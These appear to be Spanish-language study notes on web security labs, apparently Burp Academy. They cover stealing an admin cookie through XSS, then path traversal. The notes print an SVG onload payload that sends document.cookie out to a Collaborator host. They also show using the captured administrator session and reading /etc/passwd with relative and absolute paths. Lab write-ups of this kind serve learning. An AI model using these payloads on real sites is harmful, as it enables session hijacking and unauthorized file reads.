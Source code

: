 `//1acc91qxsdwflwrc9vfem3lau10zopch25tvgl4a\.oastify.com`

Cambiarlo por :

También la cookie: :8PeVRPDCbds6tzJZYeALeSXUbsrBJdyZ

Por:

y añadirle el document.cookie

``'"><svg/onload=fetch(`//YOUR-COLLABORATOR-PAYLOAD/${encodeURIComponent(document.cookie)}`)>:YOUR-SESSION-ID``

Payload real:

'"><svg/onload=fetch(`//mnd4edku8wtlf7lphhs85oc1ssyjmaaz.oastify.com/${encodeURIComponent(document.cookie)}`)>:olm9pLAPNKuAtrzXD0BVBuMksHq9nbIe

  

Vamos al collaborator al cabo de un rato y vemos una solicitud HTTP con las cookies de admin

![[Pasted image 20240206120656.png]]

  

Copiamos la línea de session y realizamos un smart decoder:

session=administrator:cL73lEc7T0lZSiJGuvvLWlYxbGhSSogo; secret=4wPgFHqP625PQ09hTwlaNL3tUQhn6agb;

  

Copiamos la sesión y en las herramientas web lo copiamos en almacenamiento --> refresh

![[Pasted image 20240206121237.png]]
Deleteamos a carlos

# Path Traversal

Vulnerabilidad que es capaz de mostrarnos el contenido viajando por la ruta del SO de la víctima.

Activar las respuestas:

![[Pasted image 20240206130241.png]]

Simplemente en la petición de la imagen, buscaremos /etc/passwd poniendo los ../ que sean necesarios hasta llegar al archivo:

![[Pasted image 20240206130837.png]]

![[Pasted image 20240206130850.png]]
Tengo que ver el apartado de scope en http history añadiendolo con btn + >

## Obstáculos comunes para explotar Path Trasversal

La web bloquea la búsqueda relativa de directorios pero no la absoluta

Simplemente poniendo la ruta absoluta de /etc/passwd funciona:
